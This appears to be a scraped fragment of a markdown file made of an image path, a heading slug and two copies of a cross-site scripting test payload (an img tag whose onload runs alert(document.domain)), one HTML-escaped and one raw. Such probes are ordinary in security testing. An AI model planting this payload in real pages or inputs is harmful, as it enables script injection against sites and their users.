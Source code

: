 # -img-src-x-onload-alert-document.domain-
">&lt;img/src=x/onload=alert(document.domain)/>

"><img/src=x/onload=alert(document.domain)/>
